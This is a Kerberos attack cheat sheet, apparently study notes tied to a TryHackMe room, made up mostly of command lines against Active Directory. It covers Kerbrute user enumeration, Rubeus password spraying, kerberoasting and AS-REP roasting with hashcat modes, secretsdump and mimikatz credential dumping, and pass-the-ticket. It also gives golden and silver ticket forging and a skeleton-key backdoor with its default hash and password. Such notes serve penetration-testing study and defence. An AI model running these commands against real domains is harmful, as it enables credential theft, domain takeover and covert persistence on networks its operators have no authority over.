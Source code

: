 # kerberos 101

## Kerberos Authentication

![](../.gitbook/assets/Kerberos-Auth.png)

### Enumerating Users using [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute -dc DC_IP -d DOMAIN USER.txt -t 50
```

### Harvesting TGTs using [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
Rubeus.exe harvest /interval:30

# password spray 
Rubeus.exe brute /password:Password1 /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to
crack service password.

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound/releases)
* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

```bash
# using Rubeus.exe
Rubeus.exe kerberoast

# dump the Kerberos hash for all kerberoastable accounts
impacket-GetUserSPNs DOMAIN/USER:'PASS' -dc-ip DC_IP -request
hashcat -m 13100
```

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

* Dumps the krbasrep5 hashes of user accounts
* If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

```bash
# using Rubeus.exe
Rubeus.exe asreproast
# add $23 after $krb5asrep$
# hashcat -m 18200

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py DOMAIN/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
# hashcat -m 18200

secretsdump.py USER@DOMAIN-IP
```

### Pass-the-ticket using mimikatz

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using mimikatz

* Silver ticket => more stealth and discreet; only for target service
* Golden ticket => any kerberos service

NOTE:

* **KRBTGT: **service account in KDC; issues all TGTs. If impersonate this account and create a golden ticket we have
  ability to create a service ticket for any service
* **TGT:** ticket to a service account issued by the KDC and can only access that service.

#### Golden Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbtgt

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

#### Silver Ticket

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### Kerberos backdoor using mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## References

* [TryHackMe:attackingkerberos](https://tryhackme.com/room/attackingkerberos)
* [Kerberos Authentication Image](https://www.manageengine.com/products/active-directory-audit/kb/windows-security-log-event-id-4768.html)